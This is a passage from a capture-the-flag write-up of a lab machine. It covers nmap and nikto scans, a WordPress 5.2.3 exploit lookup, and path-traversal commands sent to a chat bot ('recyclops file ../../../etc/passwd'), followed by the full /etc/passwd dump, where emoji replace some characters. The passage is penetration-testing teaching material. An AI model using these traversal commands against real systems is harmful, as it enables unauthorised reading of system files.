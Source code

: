 ***

Author : dxWiz
Date 04 May 2022

***

First of as usual we will do an nmap scan

    # Nmap 7.92 scan initiated Fri Apr 29 19:23:37 2022 as: nmap -sC -sV -T4 -p- -oN initial.nmap 10.10.11.143
    Nmap scan report for 10.10.11.143
    Host is up (0.024s latency).
    Not shown: 65532 closed tcp ports (conn-refused)
    PORT    STATE SERVICE    VERSION
    22/tcp  open  ssh        OpenSSH 8.0 (protocol 2.0)
    80/tcp  open  http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
    443/tcp open  ssl/https?

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Fri Apr 29 19:29:47 2022 -- 1 IP address (1 host up) scanned in 370.76 seconds
    
When visit to the website we found nothing but a plain simple HTTP server test page. So the next possible action is to find hidden folder with gobuster or dirb and both of that does not return any interesting result.

Let do a nikto scan

    └─$ nikto -host 10.10.11.143 -o nikto.txt                                                                      1 ⨯
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.10.11.143
    + Target Hostname:    10.10.11.143
    + Target Port:        80
    + Start Time:         2022-05-03 17:04:12 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + Uncommon header 'x-backend-server' found, with contents: office.paper
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + Retrieved x-powered-by header: PHP/7.2.24
    + Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE 
    + OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
    + OSVDB-3092: /manual/: Web server manual found.

    + OSVDB-3268: /icons/: Directory indexing found.
    + OSVDB-3268: /manual/images/: Directory indexing found.
    + OSVDB-3233: /icons/README: Apache default file found.

    + 8699 requests: 0 error(s) and 11 item(s) reported on remote host
    + End Time:           2022-05-03 17:30:48 (GMT-4) (1596 seconds)
    ---------------------------------------------------------------------------
    + 1 host(s) tested

`x-backend-server : office.paper` seems interesting, let's assume it is a vhost and add $IP and office.paper as hostname in `/etc/hosts`

Let's browse to `http://office.paper` and we can see that it is a forum page for a paper company. `Wappalyzer` indicate that the webpage is powered by `Wordpress 5.2.3`, probably it will have some vulnerabilities with this version? `searchsploit` is the way to find out

    └─$ searchsploit wordpress 5.2.3 -w
    ---------------------------------------------------------------------- --------------------------------------------
     Exploit Title                                                        |  URL
    ---------------------------------------------------------------------- --------------------------------------------
    WordPress Core 5.2.3 - Cross-Site Host Modification                   | https://www.exploit-db.com/exploits/47361
    WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Pos | https://www.exploit-db.com/exploits/47690
    WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service               | https://www.exploit-db.com/exploits/47800
    WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities   | https://www.exploit-db.com/exploits/39553
    WordPress Plugin iThemes Security < 7.0.3 - SQL Injection             | https://www.exploit-db.com/exploits/44943
    WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection           | https://www.exploit-db.com/exploits/48918
    ---------------------------------------------------------------------- --------------------------------------------
    Shellcodes: No Results
    Papers: No Results

[This link](https://www.exploit-db.com/exploits/47690) has some interesting tricks to reveal hidden content and with that we found a secret registration link to the paper company's employee chat system. Let's register that link hostname to /etc/hosts before we proceed further.

After registration, we are in the chat system and by going through the messages we knkow that we are able to interact with the bot to do two important things. To get files and to list files. After some experiment we notice that we are able to list and get sensitive data from `/etc/passwd` with this command `recyclops list ../../../etc/passwd` and `recyclops file ../../../etc/passwd`

     <!=====Contents of file ../../../etc/passwd=====>
    root❌0:0:root:/root:/bin/bash
    bin❌1:1:bin:/bin:/sbin/nologin
    daemon❌2:2:daemon:/sbin:/sbin/nologin
    adm❌3:4:adm:/var/adm:/sbin/nologin
    lp❌4:7:lp:/var/spool/lpd:/sbin/nologin
    sync❌5:0:sync:/sbin:/bin/sync
    shutdown❌6:0:shutdown:/sbin:/sbin/shutdown
    halt❌7:0:halt:/sbin:/sbin/halt
    mail❌8:12:mail:/var/spool/mail:/sbin/nologin
    operator❌11:0:operator:/root:/sbin/nologin
    games❌12💯games:/usr/games:/sbin/nologin
    ftp❌14:50:FTP User:/var/ftp:/sbin/nologin
    nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin
    dbus❌81:81:System message bus:/:/sbin/nologin
    systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin
    systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin
    tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
    polkitd❌998:996:User for polkitd:/:/sbin/nologin
    geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
    rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin
    qemu❌107:107:qemu user:/:/sbin/nologin
    apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin
    cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin
    pulse❌171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
    usbmuxd❌113:113:usbmuxd user:/:/sbin/nologin
    unbound❌995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
    rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
    gluster❌994:989:GlusterFS daemons:/run/gluster:/sbin/nologin
    chrony❌993:987::/var/lib/chrony:/sbin/nologin
    libstoragemgmt❌992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
    saslauth❌991:76:Saslauthd user:/run/saslauthd:/sbin/nologin
    dnsmasq❌985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
    radvd❌75:75:radvd user:/:/sbin/nologin
    clevis❌984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
    pegasus❌66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
    sssd❌983:981:User for sssd:/:/sbin/nologin
    colord❌982:980:User for colord:/var/lib/colord:/sbin/nologin
    rpcuser❌29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
    setroubleshoot❌981:979::/var/lib/setroubleshoot:/sbin/nologin
    pipewire❌980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin
    gdm❌42:42::/var/lib/gdm:/sbin/nologin
    gnome-initial-setup❌979:977::/run/gnome-initial-setup/:/sbin/nologin
    insights❌978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin
    sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    avahi❌70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
    tcpdump❌72:72::/:/sbin/nologin
    mysql❌27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
    nginx❌977:975:Nginx web server:/var/lib/nginx:/sbin/nologin
    mongod❌976:974:mongod:/var/lib/mongo:/bin/false
    rocketchat❌1001:1001::/home/rocketchat:/bin/bash
    dwight❌1004:1004::/home/dwight:/bin/bash
    <!=====End of file ../../../etc/passwd=====>

Let's find some other interesting things in the home director for the creator of the bot `dwight` and we notice a folder named `hubot`

